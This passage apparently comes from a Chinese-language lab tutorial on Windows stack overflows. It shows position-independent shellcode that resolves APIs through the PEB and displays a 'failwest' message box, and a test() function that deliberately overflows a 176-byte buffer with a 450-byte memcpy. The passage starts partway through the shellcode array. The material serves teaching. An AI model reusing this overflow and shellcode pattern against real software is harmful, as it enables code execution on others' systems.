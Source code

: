 	"\xAC\xAF\x94\x7C"//memcpy
	"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
	"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
	"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
	"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
	"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
	"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
	"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
	"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
	"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
	"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
	"\x53\xFF\x57\xFC\x53\xFF\x57\xF8"
	;
	void test()
	{
		char tt[176];
		memcpy(tt,shellcode,450);
	}
	int main()
	{
		HINSTANCE hInst = LoadLibrary("shell32.dll");
		char temp[200];
		test();
		return 0;
	}
实验环境：
![](http://ww1.sinaimg.cn/large/7fb67c86gy1g1kzmhbgqgj20l6063wg8.jpg)

shellcode布局：
![](http://ww1.sinaimg.cn/large/7fb67c86gy1g1kzlvf48xj20hu091tbl.jpg)

